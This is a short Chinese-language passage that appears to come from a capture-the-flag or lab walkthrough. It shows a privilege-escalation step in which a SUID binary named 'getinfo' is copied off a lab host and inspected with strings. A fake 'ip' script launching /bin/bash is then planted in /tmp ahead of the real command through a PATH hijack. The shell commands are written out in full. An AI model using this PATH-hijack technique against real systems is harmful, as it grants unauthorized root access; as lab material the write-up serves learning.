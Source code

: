 # 提权

## 方法一

利用具有SUID权限的文件`getinfo`进行临时环境优先目录提取

首先把该文件下载，确定利用哪些，能否进行提取

```shell
scp hubert@192.168.1.61:/usr/bin/getinfo ./

strings getinfo
```

![](./pic-4/26.jpg)

在`/tmp`目录下，创建一个与`ip`同名的名称，并写入脚本，然后使用`export`设置临时环境变量`/tmp`，执行`getinfo`就会提取成功

```shell
echo "/bin/bash" > ip
export PATH=/tmp:$PATH
chmod +x ip
/usr/bin/getinfo
```
